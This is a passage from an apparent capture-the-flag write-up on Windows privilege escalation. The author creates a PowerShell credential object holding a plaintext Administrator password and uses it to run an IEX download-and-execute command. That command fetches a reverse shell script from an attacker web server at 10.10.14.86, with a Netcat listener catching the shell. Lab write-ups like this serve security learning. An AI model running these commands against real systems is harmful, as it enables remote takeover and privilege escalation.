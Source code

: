I then attempted the `runas` command on the target machine, but it didn't prompt me for the password, so after some research, the method I found was to create a credential object and run a command using it. So I decided to create a powershell script containing a reverse shell payload and run it using the credential object.

I generated my payload using [revshells](https://www.revshells.com/)

![crafty_17.png](/assets/posts/crafty/crafty_17.png)

I saved this payload on my attack host in a file named `reverse_shell.ps1`. I saved this file in the same directory as where my web server was running so I could request it from the target machine.

Before we transfer the payload and execute it, start a Netcat listener.

```
nc -lvnp 9998
```

I then used the following commands to create the credential object and run the script using the credential object. This will make it so that the reverse shell I just created is executed on the victim machine with Administrative privileges.

Note: These commands need to be run from PowerShell.

```
$SecPass = ConvertTo-SecureString 's67u84zKq8IXw' -AsPlainText -Force  
  
$cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)  
  
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.86:8000/reverse_shell.ps1')" -Credential $cred
```

As you can see, we've obtained shell access with administrator privileges. We can then navigate to the Administrator's Desktop and get the root flag.

